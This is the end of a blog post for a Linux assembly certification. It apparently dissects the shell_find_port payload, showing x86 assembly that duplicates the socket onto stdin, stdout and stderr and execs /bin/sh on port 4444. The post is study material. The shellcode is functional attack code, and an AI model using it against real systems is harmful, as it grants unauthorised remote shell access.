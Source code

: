 ```c
	pop ecx        		 ; load the pushed 2 in the ECX register
	mov al,0x3f    	         ; push dup2 syscall value in AL
	int 0x80      		 ; execute dup2 systemcall
	dec ecx        		 ; decrement our counter (From 2 to 0 stdin, stdout and stderr.)
	jns 0x21      		 ; if we didn't reach the end (-1) we will loop back to dup_loop_label
	
; calling the execve syscall
	push eax     		 ; EAX register should now be 0
	push dword 0x68732f2f    ; hs//
	push dword 0x6e69622f    ; nib/
	mov ebx,esp    		 ; load a pointer to /bin//sh in EBX register
	push eax      		 ; push the null function argument to the EAX register
	push ebx      		 ; push /bin//shNULL pointer to EBX
	mov ecx,esp    		 ; move pointer to /bin//shNULL into ECX
	cdq       		 ; zeroing out the EAX register
	mov al,0xb   	 	 ; move pointer to /bin//shNULL into the ECX register
	int 0x80   		 ; execute execve systemcall and pop our shell
```
Using the shell_find_port payload will spawn a shell on an established connection on 4444 port.

And that's it for the fifth assignment!

## References

* get_peer_name syscall - <https://man7.org/linux/man-pages/man2/getpeername.2.html>
* bind_shell blogpost - <https://naglinagli.github.io/shellbind/>
* reverse_tcp_shell blogpost- <https://naglinagli.github.io/reverseshell/>


## Wrap-Up
This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification

<https://www.pentesteracademy.com/course?id=3>

Student ID: SLAE - 1543


Cheers,
Gal.
